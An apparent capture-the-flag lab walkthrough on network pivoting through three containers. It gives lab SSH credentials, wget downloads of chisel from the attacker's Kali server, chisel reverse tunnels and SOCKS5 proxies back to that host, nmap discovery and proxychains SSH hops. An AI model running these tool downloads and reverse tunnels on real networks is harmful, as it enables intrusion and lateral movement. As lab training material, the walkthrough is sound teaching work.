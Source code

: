 # Walkthrough

# Recommendations

Use a multi-plex terminal; tmux, terminator or whatever you find works for you! 

Save the info from the output of the build script. 

# Flags:

1. SSH on box 1.
2. local webserver on box 1
3. ssh onto box 2
4. ssh onto box 3
5. local webserver on box 3

# Flag 1

1. Build the lab
2. Read the readme!

SSH into the box with a password of `danny`

```bash
ssh danny@192.168.69.2
```

read the flag.txt file

# Flag 2

(you are told about local webserver on port 8080)

1. Check to see if server is running.

```bash
netstat -t
Active Internet connections (w/o servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 localhost:8080          localhost:38768         TIME_WAIT  
tcp        0    164 3e2de45ffaca:22         192.168.69.1:33964      ESTABLISHED
```

(told to use a reverse port forward.

1. Upload chisel to the box (Do I assume people know how to do that?)

Start web server on kali:

```bash
python3 -m http.server 9001
Serving HTTP on 0.0.0.0 port 9001 (http://0.0.0.0:9001/) ...
```

Download to the public_box:

```bash
danny@3e2de45ffaca:~$ wget http://172.17.0.1:9001/chisel
```

1. Start chisel server on kali (This will be taught)

```bash
./chisel server --reverse --port 8000
```

1. Connect from public_box

```bash
./chisel client 172.17.0.1:8000 R:127.0.0.1:8081:8080
```

1. get flag

```bash
curl http://127.0.0.1:8081
```

# Flag 3

Complete flag 1

1. Find internal box from public_box

```bash
ip a
eth0@if321: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:0a:0a:10:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 10.10.16.2/24 brd 10.10.16.255 scope global eth0
       valid_lft forever preferred_lft forever

nmap -sn 10.10.16.0/24
Nmap scan report for internal_box.internal (10.10.16.3)

nmap -p 22 10.10.16.3

Starting Nmap 7.60 ( https://nmap.org ) at 2023-08-11 15:30 UTC
Nmap scan report for internal_box.internal (10.10.16.3)
Host is up (0.00015s latency).

PORT   STATE SERVICE
22/tcp open  ssh
```

1. Upload chisel to box (check above)
2. start chisel server on kali

```bash
./chisel server --reverse --port 8000 --socks5
```

1. Connect from public_box

```bash
danny@3e2de45ffaca:~$ ./chisel client 172.17.0.1:8000 R:1080:socks
```

1. ssh into the machine with the credentials provided before (`ariana:Password1`)

```bash
proxychains ssh ariana@10.10.16.3
```

1. Read the flag.

# Flag 4

1. Complete flag 3
2. find admin box (same way as in flag 3)
3. Upload chisel to internal box (check flag 2)
4. Log into public_box in a second window and start a chisel server

```bash
danny@3e2de45ffaca:~$ ./chisel server --port 8001 --reverse --socks5
```

1. Connect to server from internal box

```bash
ariana@0be609a5a58a:~$ ./chisel client 10.10.16.2:8001 R:1090:socks
```

1. Edit `/etc/proxychains.conf` file to include this line at the end:

```bash
socks5  127.0.0.1 1090
```

1. connect to the admin_box as jack (pwd: `Complexpassword123#`

```bash
proxychains ssh jack@10.10.4.3
```

1. read the flag

# Flag 5 (optional)

It’s not that bad just requires a bit of planning

So we need a tunnel to ssh into the box (as shown for the previous flags) and now we need a tunnel to access the webserver. Considering you are up to flag 5 you should sorta know what you are doing by now.

1. sever on internal box (you can run as a backgrounded command)

```bash
./chisel server --reverse --port 8000 &
```

1. client on admin box

```bash
./chisel client 10.10.4.2:8000 R:127.0.0.1:8081:8080
```

1. server on public box:

```bash
./chisel server --reverse --port 8001 &
```

1. client on internal box:

```bash
./chisel client 10.10.16.2:8001 R:127.0.0.1:8082:8081
```

1. server on kali box:

```bash
./chisel server --reverse --port 8002
```

1. client on public box:

```bash
./chisel client 192.168.69.1:8002 R:127.0.0.1:8083:8082
```

1. Grab the flag

```bash
curl http://127.0.0.1:8083
```

FIN
